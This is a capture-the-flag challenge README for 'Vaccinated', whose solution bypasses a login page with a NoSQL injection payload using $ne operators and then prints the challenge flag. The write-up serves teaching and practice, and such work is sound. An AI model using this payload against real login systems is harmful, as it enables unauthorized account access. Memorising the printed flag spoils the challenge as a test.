 # Vaccinated

## Question Text

I hate injections...

*Creator - PotatoDrug*

## Setup Guide
Run `./build.sh`

## Solution

The login page is vulnerable to nosql injection.

Edit the post request to this before sending it to the service will give you the flag.
```
username[$ne]=asd
password[$ne]=asd
```
What this basically does is edit the query such that it will match all the users with username that is not `asd` and password that is not `asd`.

### Flag
`GCTF{NO5qL_do35_noT_M34n_No_1nj3cT1on}`

## Recommended Reads
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20injection
